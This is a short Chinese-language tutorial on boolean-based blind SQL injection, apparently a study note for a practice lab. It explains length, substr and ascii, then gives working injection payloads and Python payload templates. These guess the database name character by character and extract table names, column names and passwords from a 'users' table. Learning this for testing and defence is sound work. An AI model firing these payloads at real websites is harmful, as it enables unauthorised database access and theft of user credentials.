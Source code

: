 需要用到的函数

```
Length（）函数 返回字符串的长度

Substr（）截取字符串

Ascii（）返回字符的ascii码(与limit不同，limit的第一位是从0开始，而这里是从1开始的)

sleep(n)：将程序挂起一段时间 n为n秒

if(expr1,expr2,expr3):判断语句 如果第一个语句正确就执行第二个语句如果错误执行第三个语句
```

## 布尔盲注：

返回的结果只有两种，true或者false(当然也需要注释哦，亲)

 	 首先，用id=1'报错

其次，id=1' and length(database())>2来猜解数据库的长度，若返回正常的内容(即true)，这长度大于2

若id=1' and (length(database()))<3--+，返回false，可以得到数据库长度为3

在得到数据库长度后我们就可以开始对数据库名进行逐字猜解了

构造sql语句:

```
id=1' and (ascii(substr(database(),1,1)))>num --+
```

这里意思为从数据库的第一位开始截取数据库的第一位并转化为ascii码(通过ascii码我们可以知道大小写)判断（判断方法和之前一样),从而逐步得到数据库名

我们也可以通过burpsuite爆破实现数据库名的逐步猜解

在得到数据库名之后,当然就是对表名猜解了

附上语句

```
id=1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))>r --+

id=1' and length(database())>2

payload = "1' and (ascii(substr(database(), %d, 1))) > %d--+" % (i, mid)

payload = "1' and (ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()), %d, 1))) > %d--+" % (i, mid)

payload = "1' and (ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users' limit 0,1), %d, 1))) > %d--+" % (i, mid)

payload = "1' and (ascii(substr((select password from users limit 0,1), %d, 1))) > %d--+" % (i, mid)

```
